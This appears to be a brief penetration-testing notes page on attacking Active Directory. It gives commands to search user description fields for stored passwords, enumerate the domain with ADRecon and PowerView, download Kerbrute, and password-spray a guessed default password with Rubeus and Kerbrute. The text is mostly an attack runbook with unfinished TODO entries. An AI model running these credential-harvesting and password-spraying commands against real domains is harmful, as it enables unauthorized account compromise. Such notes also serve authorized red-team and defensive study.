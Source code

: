 # Sensitive Information stored within the AD

1.) Start ADExplorer and search through the AD for sensitive information

PS> adexplorer.exe

ADexplorer> search user description field contains pw, pwd, password, pass

2.) Enumerate the AD with ADRecon

PS> .\ADRecon.ps1

PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp

TODO: wget Excel file since Excel will not be installed

# Standard Domain Password

1.) Identify the standard domain password and start a password spray attack

a.) Use Rubeus
PS> .\Rubeus.exe brute /password:Start123!

b.) Use Kerbrute
PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"

PS> Import-Module .\PowerView.ps1

PS> (Get-NetUser | select samAccountName).samAccountName > users.txt

PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!
ToDo error


